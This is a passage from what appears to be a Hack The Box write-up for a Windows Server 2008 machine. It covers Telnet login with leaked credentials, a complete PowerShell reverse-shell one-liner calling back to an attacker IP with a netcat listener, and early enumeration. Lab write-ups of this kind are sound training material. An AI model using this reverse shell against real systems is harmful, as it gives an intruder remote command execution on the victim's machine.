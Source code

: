 ```bash
+ 1 host(s) tested
```
Nothing much to go on. For now, move on.
### 5. Check out Telnet and get a shell
There is a Telnet server that can be logged in to using the credentials in the email.
```bash
─[us-dedivip-1]─[10.10.14.162]─[htb-jib1337@htb-zivnl0e54b]─[~]
└──╼ [★]$ telnet 10.129.46.21 23
Trying 10.129.46.21...
Connected to 10.129.46.21.
Escape character is '^]'.
Welcome to Microsoft Telnet Service 

login: security
password: 

*===============================================================
Microsoft Telnet Server.
*===============================================================
C:\Users\security>whoami
access\security
```
From this telnet shell, then spawn a powershell reverse shell.
```shell
C:\Users\security\Desktop>powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.30',9999);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
Get the connection.
```shell
─[us-dedivip-1]─[10.10.14.30]─[htb-jib1337@htb-0mgl0gm8pu]─[~/psh]
└──╼ [★]$ nc -lvnp 9999
listening on [any] 9999 ...
connect to [10.10.14.30] from (UNKNOWN) [10.129.84.178] 49159

PS C:\Users\security\Desktop>
```

### 6. Enumerate from user
System info:
```shell
PS C:\Users\security\Documents> systeminfo

Host Name:                 ACCESS
OS Name:                   Microsoft Windows Server 2008 R2 Standard 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-507-9857321-84191
Original Install Date:     8/21/2018, 9:43:10 PM
System Boot Time:          1/17/2021, 10:59:32 AM
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
                           [02]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
```